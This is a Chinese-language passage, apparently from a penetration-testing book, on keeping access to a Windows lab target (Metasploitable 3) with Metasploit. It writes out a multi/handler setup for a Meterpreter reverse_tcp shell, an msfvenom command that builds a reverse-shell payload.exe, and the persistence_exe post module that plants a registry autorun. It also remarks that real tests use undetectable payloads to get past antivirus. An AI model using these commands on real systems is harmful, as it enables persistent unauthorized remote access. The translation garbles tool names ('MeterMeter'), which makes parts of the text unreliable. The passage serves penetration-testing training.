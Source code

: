 图 2：使用 MeterMeter 脚本的持久性设置

一旦安装了持久性脚本，shell 将在用户每次登录时重新建立。然而，我们还需要做一件事，那就是创建一个处理程序。此处理程序将侦听连接并创建远程会话。

可以使用以下命令设置简单的处理程序：

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [PORT]
exploit
```

请记住，`LHOST`是您在持久性脚本中使用的相同 IP 地址，`LPORT`也是您在该脚本中定义的相同端口。执行这些命令后，反向处理程序将启动：

![](assets/439dc434-00c2-45a9-be39-4cd31d8ee1e8.png)

图 3：在 Metasploit 中创建处理程序

现在，即使目标系统已经重新启动，您也已经为远程 shell 连接回您做好了一切准备。您可以通过重新启动 Metasploitable 3 虚拟机来测试这一点。一旦机器启动且用户登录，将建立 MeterMeter 会话。

让我们看看前面提到的 MeterMeter 推荐的 post 模块。要使用`/post/windows/manage/persistence_exe`，您需要创建有效负载。我使用 MSFvenom 创建了一个简单的负载。

在前面的屏幕截图中，用于创建`payload.exe`文件的命令是`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1338 -f exe -o /root/Desktop/payload.exe`。注意端口号，它与我们之前使用的端口号不同。

生成有效负载后，可以在 MeterMeter 会话中使用以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/root/Desktop/payload.exe
```

`REXEPATH`用于定义您在 Kali 环境中创建的有效负载的位置。`STARTUP`用于定义启动类型（`User`、`System`或`Service`；这将指示将使用哪个注册表项。输入上述命令后，Metasploit 将执行持久性攻击并在注册表中创建自动运行，如以下屏幕截图所示：

![](assets/8cbb70a3-9617-4f03-b319-36bd6f0e9d30.png)

图 4：使用恶意负载的持久性

完成此操作并退出 MeterMeter 会话后，创建一个新的处理程序。请记住定义不同的端口号。

在下面的屏幕截图中，请注意我建立的两个会话：

![](assets/247fb37e-c99b-4e4d-973e-9341b35f7864.png)

图 5：使用 MeterMeter 建立会话

通过在目标机器上使用`regedit`，我们可以验证注册表项是否存在：

![](assets/1b841f19-605d-4bdb-a586-22780de07999.png)

图 6:Metasploit 中持久化模块创建的注册表项

Metasploit 框架中的持久性模块非常强大。在真正的渗透测试中，如果您使用 Metasploit 来维护访问，您将利用无法检测的负载，因为防病毒软件可能会删除掉到目标系统磁盘上的负载。

# 帝国
